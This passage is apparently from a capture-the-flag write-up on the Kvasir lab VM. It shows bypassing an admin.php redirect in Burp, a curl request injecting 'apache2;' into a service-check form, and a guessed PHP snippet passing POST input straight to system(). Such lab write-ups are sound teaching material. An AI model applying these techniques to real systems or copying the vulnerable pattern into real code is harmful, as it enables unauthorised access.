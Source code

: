 
Woa, thats quite a bit of results to work through eh :)

## admins only want to 302 here
Of everything `wfuzz` revealed to us, `admin.php` was the most interesting one. Watching Burp as the requests went up and down, I noticed that `admin.php` would return a HTTP 302 code with a location, along with an actual body:

{{< figure src="/images/kvasir_admin_php.png" >}}

Sweet! I modified the response in Burp to return `200` instead, and removed the `Location:` header. We now had a new page to work with :)

{{< figure src="/images/kvasir_admin_bypass.png" >}}

The form hints that we can check the service status of daemons running on the underlying OS, and suggests `apache2` as input. I submitted the form with `apache2` as the service, and got back a response (that also tried to 302 but I fixed that :D) with a new section `Apache2 is running (pid 1330).`. This just **screams** command injection doesn’t it?

## command injection
In order for me to fuzz this further, I took the request to trusty 'ol `curl`. While doing this, I realized that `admin.php` did no checks to ensure that we are authenticated or anything. We could simply submit `service=<payload>` as a POST to `admin.php` and get output:

```bash
root@kali:~# curl 'http://192.168.56.102/admin.php' --data 'service=apache2;'

<html>
<body>
<div align="center">

<h1>Service Check</h1>

<form name="service" method="post" action="">
<input name="service" id="service" type="text" placeholder="apache2" /><br /><br />
<input name="submit" id="submit" type="submit" value="Submit" />
</form>

<form action="logout.php" method="post">
<input type="submit" value="Logout" />
</form>

<pre>Usage: /etc/init.d/apache2 {start|stop|graceful-stop|restart|reload|force-reload|start-htcacheclean|stop-htcacheclean|status}.
</pre>
```

Entering `apache2;` as the input, revealed the first step in our command injection. With `apache2;` as the payload, I figured that the php script was taking our user input and running with the following pseudo code:

```php
<?php

print system("/etc/init.d/" . $_POST["service"] . " status");
```

